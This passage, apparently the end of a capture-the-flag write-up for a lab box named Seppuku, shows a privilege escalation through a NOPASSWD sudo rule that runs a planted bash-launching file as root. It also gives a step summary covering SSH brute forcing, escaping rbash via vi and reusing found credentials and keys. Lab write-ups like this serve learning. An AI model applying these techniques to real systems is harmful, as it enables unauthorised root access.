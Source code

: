 Now to exploit this we have to su back to samurai and then run the command from sudo -l

```
samurai@seppuku:/home/tanto/.cgi_bin$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
samurai@seppuku:/home/tanto/.cgi_bin$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
root@seppuku:/home/tanto/.cgi_bin# whoami
root
```


## Breakdown
---
1. Directory busting exposed a /private and /secret directory which contained files allowing that allowed us to bruteforce ssh
2. After logging in as Seppuku we had to escape the rbash shell using vi
3. A .passwd file was found in seppukus home folder containing a password used to su to user samurai
4. Samurai was able to execute a file located in tanto's home folder as root.
5. The SSH key found from /private belonged to tanto
6. SSH as the user tanto escape the rbash shell again.
7. Create the .cgibin/ directory with a bin file executing /bin/bash
8. su back to samurai execute the command from sudo -l then get root user.
